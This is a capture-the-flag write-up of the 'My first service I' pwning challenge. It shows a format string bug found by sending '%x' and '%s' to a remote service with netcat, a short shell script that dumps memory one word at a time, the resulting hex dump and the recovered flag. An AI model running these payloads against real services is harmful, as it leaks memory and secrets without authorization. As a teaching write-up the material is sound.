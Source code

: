 # My first service I - Pwning 100

```
Blacky is taking his first steps at C programming for embedded systems, but he makes some mistakes. Retrieve the secret key for access.

nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Alternate server: 7e0a98bb084ec0937553472e7aafcf68ff96baf4.ctf.site 35000 
```

Basically, this one asks you for a "secret key" over the network.
I hate to say it, but this one's almost exactly the same as [Chile](https://ctftime.org/writeup/4374) from H4ck1t this year. We netcat to `9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site:35000`, ostensibly to enter a "secret key", but it's pretty clear from messing around that the server is vulnerable to a format string bug (we aren't given a binary):

``
$ nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Welcome to my first service
Please input the secret key: %x
Invalid key: 0

Please input the secret key: %s  
Invalid key: (null)

Please input the secret key: ^C
```

Lets dump memory, 32 bits at a time:

```
$ cat getflag 
#!/bin/sh

for i in $(seq 0 54)
do
	payload=$(perl -e "print '%x' x $i . '%08x'")
	echo "$payload" | nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000 | head -n 2 | tail -n 1 | tail -c 9
done

```

Each payload looks like `%x%x%x%08x` or similar. We don't care about what's output by each `%x`; the last few commands in the pipeline throw away everything but the output of the `%08x`. We then get a memory dump, 4 bytes at a time:

```
$ ./getflag | tee log
00000000
0000000a
00000000
00000000
00000000
0000000a
00000000
454b4f7b
4c614269
67426566
3072647d
00000000
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782530
25303878
38780a00
0a000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
496e7661
6c696420
6b65793a
20257825
78257825
78257825
78257825
78257825
78257825
78257825
```

It's actually not a 100% faithful dump; each output is from a different run of the program and all the `7825`'s are actually `%x`'es which have clobbered whatever used to be there.

```
$ cat log | hex2bin


EKO{LaBigBef0rd}%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%0%08x8x

Invalid key: %x%x%x%x%x%x%x%x%x%x%x%x%x%
```

Good enough, I guess. 
